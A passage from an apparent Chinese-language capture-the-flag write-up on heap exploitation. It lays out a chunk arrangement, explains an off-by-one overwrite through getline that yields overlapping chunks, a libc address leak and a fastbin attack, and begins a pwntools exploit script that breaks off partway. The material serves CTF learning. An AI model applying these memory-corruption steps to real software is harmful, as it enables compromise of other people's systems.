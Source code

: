 按照以上原則，我們可以思考出 chunk 的分佈如下：

```
+------------+
|      1     |  <-- free 的 size == 0x200 chunk
+------------+
|      2     |  <-- size == 0x60 fastbin chunk，已被分配，且可以讀出數據
+------------+
|      5     |  <-- size == 0x71 fastbin chunk，爲 fastbin attack 做準備
+------------+
|      3     |  <-- size == 0x1f8 free 狀態的 smallbin/unsortedbin chunk
+------------+
|      4     |  <-- size == 0x101 被溢出 chunk
+------------+
|      X     |  <-- 任意分配後 chunk 防止 top 合併
+------------+
```

由於分配過程還有一些額外結構（結構體本身的分配和 `getline`），我們需要先釋放出足夠的 fastbin chunk 來避免結構體本身的分配對我們的過程造成影響。

在此之後，依次釋放掉 5, 3, 1, 之後利用 `del` 輸入時候的 `getline`，將 3 填滿，造成 `off-by-one`，之後將 4 `free` 掉進行合併（僞造 `prev_size`），這樣就有了一個交叉的堆結構了。

之後的過程就更加簡單了，首先分配 1 的大小，使得 libc 地址被寫到 2 裏，就可以泄露出地址，然後將 5 分配出來，寫入需要的內容，就可以 fastbin attack 了。

### exploit

由於原 libc 爲 2.19 版本，加載有一些奇怪的問題，較爲麻煩，而本題沒有用到 2.19 獨有的特性，所以我採用了 2.23 的 libc 進行調試，版本爲 ubuntu10。

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
```